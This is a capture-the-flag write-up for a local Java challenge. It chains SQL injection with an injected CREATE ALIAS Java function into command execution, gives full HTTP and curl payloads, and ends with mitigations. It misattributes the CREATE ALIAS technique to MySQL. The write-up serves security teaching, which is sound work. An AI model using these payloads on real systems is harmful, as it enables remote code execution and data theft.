 # **Write-Up: Exploiting SQL Injection to Execute Arbitrary Code**

## **Challenge Description**
Pentesting isn't a solomente. Gather your team, create alias, and take control of the world. Java may not be my favorite language, but I always choose coffee every day.

## **FLAG**
CTF{khirna_maydir_ghirna_challenge_impermiable_hbibi}
---

## **Vulnerability Analysis**
### **1. Vulnerable Endpoint**
The endpoint `/api/mola7ada` is vulnerable to SQL injection due to improper handling of user input in the `name` parameter. The backend code directly concatenates user input into the SQL query without proper sanitization or parameterization.

### **2. Exploitable Functionality**
The `CREATE ALIAS` technique allows an attacker to define a custom function in MySQL that can execute arbitrary Java code. By exploiting the SQL injection vulnerability, an attacker can inject a payload to create an alias and execute system commands.

### **3. Prerequisites for Exploitation**
- The MySQL user must have the `CREATE` and `EXECUTE` privileges.
- The MySQL server must support user-defined functions (UDFs).

---

## **Exploitation Steps**

### **Step 1: Identify the Vulnerability**
1. **Test for SQL Injection:**
   Send a payload to the `/api/mola7ada` endpoint to test for SQL injection:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' OR 1=1; --
   ```

   If the application returns all rows from the `mola7adat` table, SQL injection is confirmed.

2. **Determine the Number of Columns:**
   Use the `ORDER BY` clause to determine the number of columns in the query:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' ORDER BY 3; --
   ```

   If the application returns a valid response, there are at least 3 columns.

### **Step 2: Exploit the Vulnerability**
1. **Inject a `CREATE ALIAS` Payload:**
   Use the following payload to create an alias that executes arbitrary Java code:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 500

   name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; --
   ```

   This payload creates an alias `EXECVE` that executes a system command and writes the output to a file.

2. **Execute the Alias:**
   Use the following payload to execute the alias and run a system command:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 50

   name=test'; CALL EXECVE('ls /'); --
   ```

   This payload executes the `ls /` command and writes the output to `/app/target/classes/static/hola.html`.

### **Step 3: Retrieve the Output**
1. **Access the Output File:**
   The output of the command is written to `/app/target/classes/static/hola.html`. Access this file via the web server:
   ```
   http://127.0.0.1:1337/hola.html
   ```

2. **Extract the Flag:**
   If the flag is located in the root directory, the `ls /` command will list it, and the output will be available in `hola.html`.

---

## **Proof of Concept (PoC)**
Here’s a sample PoC using `curl` to exploit the vulnerability:

```bash
# Step 1: Create the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(\"/app/target/classes/static/hola.html\"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return \"Output written to /app/target/classes/static/hola.html\"; }'; --"

# Step 2: Execute the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CALL EXECVE('ls /'); --"
```

---

## **Mitigation Recommendations**
1. **Use Parameterized Queries:**
   Replace the vulnerable query with a parameterized query to prevent SQL injection:
   ```java
   String query = "SELECT * FROM mola7adat WHERE name = :name";
   List<Object[]> resultList = entityManager.createNativeQuery(query)
                                           .setParameter("name", name)
                                           .getResultList();
   ```

2. **Restrict MySQL Privileges:**
   - Revoke the `CREATE` and `EXECUTE` privileges from the MySQL user:
     ```sql
     REVOKE CREATE, EXECUTE ON *.* FROM 'root'@'%';
     FLUSH PRIVILEGES;
     ```
   - Use a dedicated MySQL user with limited privileges for the application.

3. **Input Validation:**
   Validate the `name` parameter to ensure it contains only allowed characters:
   ```java
   if (!name.matches("[a-zA-Z0-9]+")) {
       return ResponseEntity.status(HttpStatus.BAD_REQUEST).body("Invalid name");
   }
   ```

4. **Error Handling:**
   Avoid exposing detailed error messages to the user. Log errors on the server instead.

---

## **Conclusion**
The SQL injection vulnerability in the `/api/mola7ada` endpoint allowed an attacker to execute arbitrary code on the server using the `CREATE ALIAS` technique. By exploiting this vulnerability, the attacker was able to execute system commands and retrieve sensitive information.

To prevent such vulnerabilities, always use parameterized queries, restrict MySQL privileges, and validate user input. Regularly test your application for security vulnerabilities using tools like OWASP ZAP or Burp Suite.

---
